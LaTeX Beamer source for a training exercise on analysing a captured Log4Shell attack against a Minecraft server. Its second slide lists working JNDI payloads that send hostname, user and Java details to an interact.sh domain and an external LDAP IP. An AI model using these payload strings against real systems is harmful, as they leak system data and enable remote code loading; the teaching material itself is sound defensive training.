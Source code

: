 \begin{frame}
    \frametitle{Exercise 2: In-depth analysis}
        \begin{enumerate}
        \item Identify {\color{red}{\bf Attacker}} connection to the {\color{blue}{\bf Minecraft Server}}
        \item Search for {\bf \emph{jndi}} string using Wireshark packet string search, and extract all the payloads
        \item Analyze JNDI payloads and their purpose
        \begin{itemize}
        	\item DNS
        	\item LDAP
        \end{itemize}        
        \item Describe the information the {\color{red}{\bf Attacker}} leaked information via DNS/LDAP requests
    \end{enumerate}
    \begin{center}Exercise duration: 20 minutes\end{center}
\end{frame}

\begin{frame}[fragile]
    \frametitle{Exercise 2: In-depth analysis summary}
   {\bf DNS payloads}
    \begin{lstlisting}[basicstyle=\tiny\color{black}]
${jndi:dns://hostname-${hostName}.c8nfads2vtc0000srss0grk4fxryyyyyr.interact.sh}
${jndi:dns://user-${env:USER}.c8nfads2vtc0000srss0grk4fxryyyyyr.interact.sh}
${jndi:dns://version-${sys:java.version}.c8nfads2vtc0000srss0grk4fxryyyyyr.interact.sh}
    \end{lstlisting}
   {\bf LDAP payloads}
	\begin{lstlisting}
${jndi:ldap://18.212.74.161/${java:version}}
${jndi:ldap://18.212.74.161/${java:os}}
${jndi:ldap://18.212.74.161/${java:vm}}
${jndi:ldap://18.212.74.161/${java:locale}}
${jndi:ldap://18.212.74.161/${java:hw}}
${jndi:ldap://18.212.74.161:389/1svssl}
    \end{lstlisting}
\end{frame}

